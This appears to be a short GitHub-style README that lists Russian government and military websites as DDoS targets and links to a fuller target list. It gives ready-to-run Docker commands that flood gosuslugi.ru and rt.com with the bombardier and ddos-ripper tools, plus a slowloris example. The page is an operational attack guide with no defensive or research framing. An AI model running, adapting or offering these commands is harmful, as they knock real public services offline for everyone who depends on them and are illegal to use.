 # List of public russian government and military services

https://www.gosuslugi.ru  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://www.scrf.gov.ru  
https://mil.ru  
https://minpromtorg.gov.ru/  
https://favt.gov.ru/  
https://rkn.gov.ru/  
https://rg.ru/org/pravitelstvo/minoboroni/gru/  
http://www.fso.gov.ru/

# Full list of targets

https://pastebin.com/JEuV9ftT

# DDoS commands

```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
docker run -it --rm nitupkcuf/ddos-ripper:latest www.rt.com
```

# Awesome Slow DDoS tool

https://github.com/gkbrk/slowloris

Example command:  
```
docker run --rm -it maxkrivich/pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```
